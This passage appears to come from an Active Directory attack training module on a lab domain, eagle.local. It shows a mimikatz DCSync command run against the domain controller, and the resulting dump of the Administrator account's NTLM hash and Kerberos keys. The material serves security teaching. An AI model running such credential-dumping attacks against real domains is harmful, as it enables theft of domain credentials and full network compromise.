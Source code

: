 ```powershell-session
        Kdc Called:
```

Then, a DCSync attack can be executed through mimikatz, essentially by replicating what we did in the DCSync section.

  Coercing Attacks & Unconstrained Delegation

```powershell-session
PS C:\Users\bob\Downloads\mimikatz_trunk\x64> .\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:eagle.local /user:Administrator
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   : 01/01/1601 02.00.00
Password last change : 07/08/2022 21.24.13
Object Security ID   : S-1-5-21-1518138621-4282902758-752445584-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: fcdc65703dd2b0bd789977f1f3eeaecf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6fd69313922373216cdbbfa823bd268d

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1c4197df604e4da0ac46164b30e431405d23128fb37514595555cca76583cfd3
      aes128_hmac       (4096) : 4667ae9266d48c01956ab9c869e4370f
      des_cbc_md5       (4096) : d9b53b1f6d7c45a8

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-FM93RI8QOKQAdministrator
    Credentials
      des_cbc_md5       : d9b53b1f6d7c45a8


mimikatz # exit
Bye!
```